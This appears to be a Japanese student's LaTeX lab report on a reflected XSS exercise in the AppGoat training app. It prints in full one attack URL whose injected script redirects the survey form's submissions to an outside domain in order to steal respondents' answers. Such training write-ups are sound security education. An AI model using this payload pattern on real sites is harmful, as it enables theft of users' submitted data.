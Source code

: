 \documentclass[dvipdfmx,autodetect-engine,titlepage]{jsarticle}
\begin{document}
\subsubsection*{入力情報の漏洩(反射型)}
この演習では、名前を入力する欄に脆弱性を確認できた。また、入力された内容が
urlにも反映されることを利用して、アンケートの送信先を変更するスクリプトを
urlに埋め込み、そのurlからアクセスした人のアンケート結果を盗む攻撃を行った。
実際に作成したurlは「\url{http://appgoat.cysec-lab.org/Users/is0585xf/Web/Scenario1122/VulSoft/enquete.php?page=2&name=<script>document.getElementById("enquete_form").action='https://zyouhourouei.com'</script>&sex=0&old=&company=&xss=1&trouble=1&content=}
」である。これは、url内の「name=」の部分がそのまま名前入力欄と対応しているので、
その部分に直接スクリプトを書き込んでいる。\\以下の図に元のサイトからのアンケート送信結果と、掲示板のurlから
アクセスしたサイトのアンケート送信結果を以下の図5,6に示す。

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    \includegraphics[keepaspectratio,scale=0.3]{pic5.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    \includegraphics[keepaspectratio,scale=0.3]{pic6.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}
\end{document}
